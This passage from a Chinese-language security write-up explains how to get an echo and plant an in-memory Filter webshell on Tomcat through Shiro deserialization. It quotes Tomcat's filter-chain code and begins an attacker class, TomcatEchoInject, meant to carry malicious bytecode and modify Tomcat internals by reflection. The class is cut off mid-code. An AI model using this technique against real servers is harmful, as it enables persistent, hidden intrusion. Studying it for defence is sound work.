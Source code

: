 ```java
                filter.doFilter(request, response, this);
            }
        } catch (IOException | ServletException | RuntimeException e) {
            throw e;
        } catch (Throwable e) {
            e = ExceptionUtils.unwrapInvocationTargetException(e);
            ExceptionUtils.handleThrowable(e);
            throw new ServletException(sm.getString("filterChain.filter"), e);
        }
        return;
    }

    // We fell off the end of the chain -- call the servlet instance
    try {
        if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
            lastServicedRequest.set(request);
            lastServicedResponse.set(response);
        }
        ...
    } catch (IOException | ServletException | RuntimeException e) {
        throw e;
    } catch (Throwable e) {
        e = ExceptionUtils.unwrapInvocationTargetException(e);
        ExceptionUtils.handleThrowable(e);
        throw new ServletException(sm.getString("filterChain.servlet"), e);
    } finally {
        if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
            lastServicedRequest.set(null);
            lastServicedResponse.set(null);
        }
    }
}
```

先执行完所有的Filter了filter.doFilter(request, response, this)

因此，对于shiro的反序列化利用就没办法通过这种方式取到response回显了。

### 0x02 动态注册Filter

没错的，正如标题所说，通过动态注册一个Filter，并且把其放到最前面，这样，我们的Filter就能最先执行了，并且也成为了一个内存Webshell了。

要实现动态注册Filter，需要两个步骤。第一个步骤就是先达到能获取request和response，而第二个步骤是通过request或者response去动态注册Filter

**步骤一**

首先，我们创建一个继承AbstractTranslet（因为需要携带恶意字节码到服务端加载执行）的TomcatEchoInject类，在其静态代码块中反射修改ApplicationDispatcher.WRAP_SAME_OBJECT为true，并且对lastServicedRequest和lastServicedResponse这两个ThreadLocal进行初始化


```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/**
 * @author threedr3am
 */
public class TomcatEchoInject  extends AbstractTranslet {

  static {
    try {
      /*刚开始反序列化后执行的逻辑*/
      //修改 WRAP_SAME_OBJECT 值为 true
```